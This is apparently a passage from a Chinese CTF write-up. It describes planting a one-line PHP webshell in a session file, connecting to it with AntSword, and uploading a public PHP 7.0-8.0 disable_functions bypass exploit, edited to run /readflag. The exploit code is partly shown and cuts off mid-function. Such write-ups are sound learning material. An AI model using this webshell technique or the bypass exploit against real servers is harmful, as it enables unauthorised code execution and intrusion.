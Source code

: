 通过search功能，我们可以将一句话木马写入session文件内容中去

![image-20230415130221256](https://raw.githubusercontent.com/leekosss/photoBed/master/202304151302321.png)

直接使用蚁剑连接：`/runtime/session/sess_0123456789012345678912345678.php`

在根目录下找到flag，但是没有权限去读，同目录下还有一个`readflag`文件，因此我们需要去执行该文件，读取到flag

![image-20230415130511511](https://raw.githubusercontent.com/leekosss/photoBed/master/202304151305662.png)

禁用了很多函数，使用蚁剑的插件也用不了，

网上找到了： [PHP 7.0-8.0 disable_functions bypass](https://github.com/leekosss/exploits/blob/master/php-filter-bypass/exploit.php)

我们使用它，使用蚁剑上传到服务器：

```php
<?php
# PHP 7.0-8.0 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=54350
# 
# This exploit should work on all PHP 7.0-8.0 versions
# released as of 2021-10-06
#
# Author: https://github.com/mm0r1

pwn('/readflag');    //修改这里为 /readflag

function pwn($cmd) {
    define('LOGGING', false);
    define('CHUNK_DATA_SIZE', 0x60);
    define('CHUNK_SIZE', ZEND_DEBUG_BUILD ? CHUNK_DATA_SIZE + 0x20 : CHUNK_DATA_SIZE);
    define('FILTER_SIZE', ZEND_DEBUG_BUILD ? 0x70 : 0x50);
    define('STRING_SIZE', CHUNK_DATA_SIZE - 0x18 - 1);
    define('CMD', $cmd);
    for($i = 0; $i < 10; $i++) {
        $groom[] = Pwn::alloc(STRING_SIZE);
    }
    stream_filter_register('pwn_filter', 'Pwn');
    $fd = fopen('php://memory', 'w');
    stream_filter_append($fd,'pwn_filter');
    fwrite($fd, 'x');
}

class Helper { public $a, $b, $c; }
class Pwn extends php_user_filter {
    private $abc, $abc_addr;
    private $helper, $helper_addr, $helper_off;
    private $uafp, $hfp;

    public function filter($in, $out, &$consumed, $closing) {
        if($closing) return;
        stream_bucket_make_writeable($in);
        $this->filtername = Pwn::alloc(STRING_SIZE);
        fclose($this->stream);
        $this->go();
        return PSFS_PASS_ON;
    }

    private function go() {
        $this->abc = &$this->filtername;

        $this->make_uaf_obj();

```